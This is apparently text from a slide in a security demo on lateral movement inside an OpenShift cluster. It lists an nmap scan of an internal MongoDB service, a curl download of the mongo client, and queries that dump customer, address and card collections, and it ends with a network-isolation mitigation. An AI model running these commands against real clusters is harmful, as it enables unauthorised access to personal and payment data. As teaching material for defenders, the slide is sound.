

# Lateral movement commands OCP
Check availability from within container (in other project) <- TODO: not feasible with -Pn?!
nmap -p27017 --script mongodb-databases 172.30.2.17 -Pn
Download mongo binary, connect to db in container:
curl fastdl.mongodb.org/linux/mongodb-linux-x86_64-4.0.10.tgz --resolve fastdl.mongodb.org:80:52.222.167.194 -O
tar -xvf mongodb-linux-x86_64-4.0.10.tgz
./mongodb-linux-x86_64-4.0.10/bin/mongo 172.30.2.17
Search for interesting data:
show dbs
use users
show collections
db.customers.find()
db.addresses.find()
db.cards.find()
Mitigate (as ocp system:admin, needs openshift-ovs-multitenant SDN plugin!):
oc adm pod-network isolate-projects sock-shop